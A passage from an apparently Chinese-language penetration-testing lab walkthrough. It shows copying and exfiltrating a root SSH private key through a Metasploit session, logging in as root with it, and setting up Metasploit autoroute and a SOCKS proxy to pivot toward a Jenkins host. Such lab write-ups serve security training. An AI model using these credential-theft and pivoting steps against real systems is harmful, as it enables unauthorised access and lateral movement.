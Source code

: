 ![截图](ac384af121e83f8df4e18dffbc885452.png)

这里，我们发现了一个ssh密钥的存储位置！ 我们试着将该文件拖到本地看看能不能直接利用其进行连接！

首先，由于我们msf取得的是一个普通权限，因此我们需要先赋予其足够的权限使得我们普通用户也能对其操作，而后还需要将其移动到/tmp目录（因为该目录权限低）：

```bash
cp ~/.ssh/id_rsa /tmp/id_rsa
chmod 777 id_rsa
```

![截图](0789ba4a216d037852f0c35e00c57019.png)

然后，退出该会话，并将该文件下载到本地：

```bash
download  /tmp/id_rsa /home/kali/Desktop/linux-THP/id_rsa
```

![截图](b032a4dca669866622c0aff059b9d2c8.png)

赋予权限后，尝试连接：

```bash
chmod 600 id_rsa
ssh -i id_rsa root@172.16.250.30
```

![截图](d6251bf1e53f8e755e10507074895494.png)

连接成功！！

#### 5）利用Jenkins入侵50主机

首先，我们先进行一波信息收集：

```bash
netstat -anpt
```

![截图](a3561ba4ca8bb24b2f491017b38299e0.png)

这里发现了一个java程序，我们可以登录看看这个8080的网页。但是，由于我们kali机不能直接访问30的web服务，因此我们需要先开启代理转发：

```shell
# 添加路由
run post/multi/manage/autoroute //添加当前路由表
run autoroute -p //查看当前路由表
bg //保存会话
# msf建立节点
use auxiliary/server/socks_proxy
set srvport 2024
run
```

开启proxychains：

![截图](7e70614f468c762be38d2b437dc7f07f.png)
